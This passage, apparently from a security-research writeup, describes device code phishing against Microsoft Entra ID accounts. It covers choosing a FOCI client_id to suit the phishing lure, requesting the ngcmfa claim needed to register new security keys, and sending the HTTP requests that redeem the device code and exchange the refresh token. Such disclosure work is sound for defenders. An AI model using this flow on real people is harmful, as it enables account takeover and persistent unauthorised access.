 #### client_id
The used `client_id` is the one of `Office 365 Management`. This one is chosen because the resulting access tokens will have the FOCI1 claim. It is possible to use any other `client_id` as long it belongs to the FOC1 family.  See https://github.com/secureworks/family-of-client-ids-research/blob/main/known-foci-clients.csv for further `client_ids`. This simplifies also phishing since a `client_id` can be chosen which best matches the phishing story.

#### amr_values
`amr_values` is set to `ngcmfa`. This claim is required for adding new Security Keys. It is not required if other Sign-in methods (Email, Phone, authenticator) want to be added. The `ngcmfa` claim is also only available for ~15 mins.

#### resource/scope
Although the above call specifies `0000000c-0000-0000-c000-000000000000` (Microsoft App Access Panel) other resources could be requested like MS Graph.

### Step 2
Complete the device code flow. Parameters must be identical to the initial request.

Request
```
POST https://login.microsoftonline.com/common/oauth2/token?api-version=1.0 HTTP/1.1
Host: login.microsoftonline.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 361

resource=0000000c-0000-0000-c000-000000000000&grant_type=urn:ietf:params:oauth:grant-type:device_code&client_id=00b41c95-dab0-4487-9791-b9d2c32c80f2&code=GAQABAAEAAAAtyolDObpQQ5VtlI4uGjEPIj3qY9zcBvFuP2AiFKDJWynYmhiR0TGRrDKJHrKypH12FfCPNP3HOubLhV0Z1AsXdFLhyKAhCy0uTif6oO1fRK1Ld_ctMIUE4kYhGlHeaYsmaBxYdBTpQXhaa3H8sBE78RXskjBUPuted7kHNZ1bPfAp_smDRz-LFMg4Pjxlf8sgAA
```

Response returns the needed refresh token
```
HTTP/1.1 200 OK
[cut]

{"token_type":"Bearer","scope":"user_impersonation","expires_in":"599","ext_expires_in":"599","expires_on":"1694613416","not_before":"1694612516","resource":"spn:0000000c-0000-0000-c000-000000000000","access_token":"[cut]","refresh_token":"[cut]","foci":"1","id_token":"[cut]"}
```

### Step 3
The refresh token from step 2 is now exchanged for an access token on the v2 oauth2 endpoint.
```
POST https://login.microsoftonline.com/common/oauth2/v2.0/token HTTP/1.1
Host: login.microsoftonline.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 1048

client_id=00b41c95-dab0-4487-9791-b9d2c32c80f2&scope=0000000c-0000-0000-c000-000000000000/.default&refresh_token=[cut]&grant_type=refresh_token
```
